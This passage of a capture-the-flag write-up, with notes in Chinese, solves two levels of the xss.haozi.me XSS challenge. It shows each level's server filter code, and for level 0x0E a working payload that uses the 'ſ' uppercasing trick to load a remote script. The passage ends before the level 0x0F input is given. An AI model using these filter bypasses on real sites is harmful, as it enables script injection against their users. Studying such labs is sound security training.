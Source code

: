 ## 0x0E

server code:

```
function render (input) {
  input = input.replace(/<([a-zA-Z])/g, '<_$1')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```

Analysis:

```
正则匹配<开头的字符串，替换为<_字母，且将输入全部大写；
由于匹配了<+字母，即所有标签全部gg，并别提之后的绕过大写，这里查资料发现字符ſ大写后为S（ſ不等于s）；
```

input code:

```
<ſcript src="https://xss.haozi.me/j.js"></script>
```

html:

```
<h1><SCRIPT SRC="HTTPS://XSS.HAOZI.ME/J.JS"></SCRIPT></h1>
```

## 0x0F

server code:

```
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f;')
  }
  return `<img src onerror="console.error('${escapeHtml(input)}')">`
}
```

Analysis:

```
将一些字符进行实体编码，输入点在console.error中；
由于题目使用的是img标签，所有输入在标签内，而过滤的又将其转为html实体编码，所以无影响...
闭合'单引号和)括号，在img中的onerror属性中alert；
```

input code:
